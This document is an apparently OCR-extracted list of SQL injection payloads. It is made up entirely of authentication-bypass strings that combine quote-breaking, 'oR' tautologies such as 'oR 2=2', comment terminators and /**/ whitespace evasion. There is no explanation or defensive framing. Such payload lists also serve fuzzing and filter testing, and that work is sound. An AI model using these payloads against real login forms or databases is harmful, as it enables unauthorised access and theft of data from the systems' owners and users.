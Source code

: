 ```
")-""#
")-""/*
")&""-- 2
")&""#
")&""/*
")^""-- 2
")^""#
")^""/*
")*""-- 2
")*""#
")*""/*
")=""-- 2
")=""#
")=""/*
0")&lt;"2-- 2
0")&lt;"2#
0")&lt;"2'/*
'oR'2
'oR'2'-- 2
'oR'2'#
'oR'2'/*
'oR'2'oR'
'oR(2)-- 2
'oR(2)#
'oR(2)/*
'oR(2)oR'
'oR 2-- 2
'oR 2#
'oR 2/*
'oR 2 oR'
'oR/**/2-- 2
'oR/**/2#
'oR/**/2/*
'oR/**/2/**/oR'
"oR"2
"oR"2"-- 2
"oR"2"#
"oR"2"/*
"oR"2"oR"
"oR(2)-- 2
"oR(2)#
"oR(2)/*
"oR(2)oR"
"oR 2-- 2
"oR 2#
"oR 2/*
"oR 2 oR"
"oR/**/2-- 2
"oR/**/2#
"oR/**/2/*
"oR/**/2/**/oR"
'oR'2'='2
'oR'2'='2'oR'
'oR'2'='2'-- 2
'oR'2'='2'#
'oR'2'='2'/*
'oR 2=2-- 2
'oR 2=2#
'oR 2=2/*
'oR 2=2 oR'
'oR/**/2=2-- 2
'oR/**/2=2#
'oR/**/2=2/*
```